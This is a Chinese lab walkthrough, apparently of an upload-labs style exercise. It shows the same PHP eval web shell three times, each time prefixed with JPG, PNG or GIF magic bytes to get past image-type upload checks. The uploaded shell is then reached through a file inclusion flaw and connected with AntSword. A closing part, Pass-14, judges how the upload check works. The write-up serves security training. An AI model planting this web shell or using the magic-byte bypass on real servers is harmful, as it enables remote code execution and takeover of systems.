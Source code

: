 1、jpg

使用 `11` 进行占位

```text {filename=fish2.php}
11<?php @eval($_POST['fish']) ?>
```

使用 `hexedit` 替换 `11` 为 `jpg` 文件签名 `FF D8`

![PixPin_2025-05-09_18-28-59](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-09_18-28-59.7pic38lj4.webp)

上传 `fish2.php` 成功，利用任意文件包含漏洞使用蚁剑进行连接

![PixPin_2025-05-09_19-12-29](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-09_19-12-29.2veymhle0a.webp)


2、png

使用 `11` 进行占位

```text {filename=fish3.php}
11<?php @eval($_POST['fish']) ?>
```

使用 `hexedit` 替换 `11` 为 `png` 文件签名 `89 50`

![PixPin_2025-05-09_19-29-50](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-09_19-29-50.icc5atgqa.webp)

上传 `fish3.php` 成功，利用任意文件包含漏洞使用蚁剑进行连接

![PixPin_2025-05-09_19-31-07](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-09_19-31-07.wirw63qfj.webp)

3、gif

使用 `11` 进行占位

```text {filename=fish4.php}
11<?php @eval($_POST['fish']) ?>
```

使用 `hexedit` 替换 `11` 为 `gif` 文件签名 `47 49`

![PixPin_2025-05-09_19-36-50](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-09_19-36-50.pfk0qon3i.webp)

上传 `fish4.php` 成功，利用任意文件包含漏洞使用蚁剑进行连接

![PixPin_2025-05-09_19-38-01](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-09_19-38-01.86tv783uwl.webp)

## Pass-14

排除客户端 `JavaScript` 检查，上传非图片内容、图片后缀的文件 `fish.jpg` 成功，判断为 **检查后缀** 类型

![PixPin_2025-04-28_22-59-51](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-04-28_22-59-51.7lk75emt25.webp)

上传任意后缀文件 `fish.fish` 失败，判断为 **白名单** 类型

![PixPin_2025-05-09_17-10-29](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-09_17-10-29.92qcmj3tx3.webp)
